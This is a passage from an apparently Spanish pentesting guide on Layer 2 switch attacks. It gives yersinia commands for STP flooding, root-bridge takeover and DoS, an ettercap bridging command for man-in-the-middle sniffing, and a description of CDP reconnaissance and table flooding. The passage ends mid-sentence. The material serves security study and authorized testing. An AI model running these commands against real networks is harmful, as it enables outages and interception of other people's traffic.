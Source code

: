 ```bash
yersinia stp -attack 2
yersinia stp -attack 3
#Use -M to disable MAC spoofing
```

#### **Ataque STP TCP**

Cuando se envía un TCP, la tabla CAM de los switches se eliminará en 15s. Luego, si estás enviando continuamente este tipo de paquetes, la tabla CAM se reiniciará continuamente (o cada 15 segundos) y cuando se reinicie, el switch se comporta como un hub.

```bash
yersinia stp -attack 1 #Will send 1 TCP packet and the switch should restore the CAM in 15 seconds
yersinia stp -attack 0 #Will send 1 CONF packet, nothing else will happen
```

#### **Ataque de Raíz STP**

El atacante simula el comportamiento de un switch para convertirse en la raíz STP de la red. Luego, más datos pasarán a través de él. Esto es interesante cuando estás conectado a dos switches diferentes.\
Esto se hace enviando paquetes BPDUs CONF diciendo que el valor de **prioridad** es menor que la prioridad real del switch raíz actual.

```bash
yersinia stp -attack 4 #Behaves like the root switch
yersinia stp -attack 5 #This will make the device behaves as a switch but will not be root
```

**Si el atacante está conectado a 2 switches, puede ser la raíz del nuevo árbol y todo el tráfico entre esos switches pasará a través de él** (se realizará un ataque MITM).

```bash
yersinia stp -attack 6 #This will cause a DoS as the layer 2 packets wont be forwarded. You can use Ettercap to forward those packets "Sniff" --> "Bridged sniffing"
ettercap -T -i eth1 -B eth2 -q #Set a bridge between 2 interfaces to forwardpackages
```

### CDP Attacks

CISCO Discovery Protocol (CDP) es esencial para la comunicación entre dispositivos CISCO, permitiéndoles **identificarse entre sí y compartir detalles de configuración**.

#### Passive Data Collection <a href="#id-0e0f" id="id-0e0f"></a>

CDP está configurado para transmitir información a través de todos los puertos, lo que podría llevar a un riesgo de seguridad. Un atacante, al conectarse a un puerto de switch, podría desplegar sniffers de red como **Wireshark**, **tcpdump** o **Yersinia**. Esta acción puede revelar datos sensibles sobre el dispositivo de red, incluyendo su modelo y la versión de Cisco IOS que ejecuta. El atacante podría entonces apuntar a vulnerabilidades específicas en la versión de Cisco IOS identificada.

#### Inducing CDP Table Flooding <a href="#id-0d6a" id="id-0d6a"></a>

Un enfoque más agresivo implica lanzar un ataque de Denial of Service (DoS) al abrumar la memoria del switch, pretendiendo ser dispositivos CISCO legítimos. A continuación se muestra la secuencia de comandos para iniciar tal ataque utilizando Yersinia, una herramienta de red diseñada para pruebas:
